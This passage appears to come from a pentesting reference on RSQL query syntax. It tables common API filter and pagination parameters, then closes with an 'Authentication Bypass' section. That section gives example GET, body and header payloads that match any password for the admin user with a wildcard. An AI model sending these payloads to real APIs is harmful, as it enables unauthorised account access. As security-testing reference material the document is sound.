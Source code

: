 **Note**: Table based on information from [**rsql-parser**](https://github.com/jirutka/rsql-parser) application.

## Common filters
These filters help refine queries in APIs:

| Filter | Description | Example |
|--------|------------|---------|
| `filter[users]` | Filters results by specific users | `/api/v2/myTable?filter[users]=123` |
| `filter[status]` | Filters by status (active/inactive, completed, etc.) | `/api/v2/orders?filter[status]=active` |
| `filter[date]` | Filters results within a date range | `/api/v2/logs?filter[date]=gte:2024-01-01` |
| `filter[category]` | Filters by category or resource type | `/api/v2/products?filter[category]=electronics` |
| `filter[id]` | Filters by a unique identifier | `/api/v2/posts?filter[id]=42` |


## Common parameters
These parameters help optimize API responses:

| Parameter | Description | Example |
|-----------|------------|---------|
| `include` | Includes related resources in the response | `/api/v2/orders?include=customer,items` |
| `sort` | Sorts results in ascending or descending order | `/api/v2/users?sort=-created_at` |
| `page[size]` | Controls the number of results per page | `/api/v2/products?page[size]=10` |
| `page[number]` | Specifies the page number | `/api/v2/products?page[number]=2` |
| `fields[resource]` | Defines which fields to return in the response | `/api/v2/users?fields[users]=id,name,email` |
| `search` | Performs a more flexible search | `/api/v2/posts?search=technology` |

## Authentication Bypass
If there is no correct validation, it would be possible to evade it by using the wildcard `*` value as a password or try to guess it through a sequential and asterisk:

#### GET Parameters
```console
GET /api/v2/users?q=username==admin;password==* 
```

#### POST, TRACE or PUT parameters
```console
{
  "query": "username==admin;password==*"
}
```

#### HTTP Headers
Some APIs allow queries to be sent in HTTP headers.
```console
<HEADER>: username==admin;password==*
```
